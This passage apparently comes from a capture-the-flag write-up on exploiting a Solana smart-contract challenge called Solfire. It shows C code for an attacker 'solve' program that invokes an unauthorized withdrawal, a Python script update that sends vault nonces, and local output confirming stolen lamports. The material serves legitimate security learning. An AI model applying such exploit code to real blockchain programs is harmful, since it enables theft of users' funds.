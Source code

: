 ```c
  solfire_withdrawl(params, vault_nonce);
  
  return SUCCESS;
}

extern uint64_t entrypoint(const uint8_t *input) {
  sol_log("Solfire Basic Invocation");

  SolAccountInfo accounts[6];
  SolParameters params = (SolParameters){.ka = accounts};

  if (!sol_deserialize(input, &params, SOL_ARRAY_SIZE(accounts))) {
    return ERROR_INVALID_ARGUMENT;
  }

  if (params.ka_num < 6) {
    sol_log("Not enough accounts");
    return ERROR_NOT_ENOUGH_ACCOUNT_KEYS;
  }

  return basic(&params);
}
```

</div>
    </div>
  </div>
</div>

Our python script will need a small update as well, as we now must send along the *vault* nonce in the instruction data:

```python
#instructions
buf= p8(ledgernonce) + p8(vaultnonce)
p.sendline(str(len(buf)))
p.send(buf)
```

Let's run the script and confirm that we successfully stole some lamports:

```
$ python3 connect3.py
[+] Opening connection to localhost on port 8080: Done
program: Ew7GBvH4DQyPF7SMdV398ymLoDpYLgiHg4TNBWwee6Da
solve: 3Hh99uFZVHmh5cTy8FgNpdwdtt92vSKNgar4XRfeunot
user: 77c7dn2XD1wRu7njS6c6NWuRUPgUzb65x526z87CrJpe
ledger: 41La5Ue3q5jLBecFFfC6XGecn8pbiv3tLbGaqkVsr3zK 255
vault: AZTwNNQ6waZVQgBXEmP62DZYpAjU3o9xp2oVftZiA3dU 254
user bal: 18
vault bal: 999991
```
{:.contains-term}
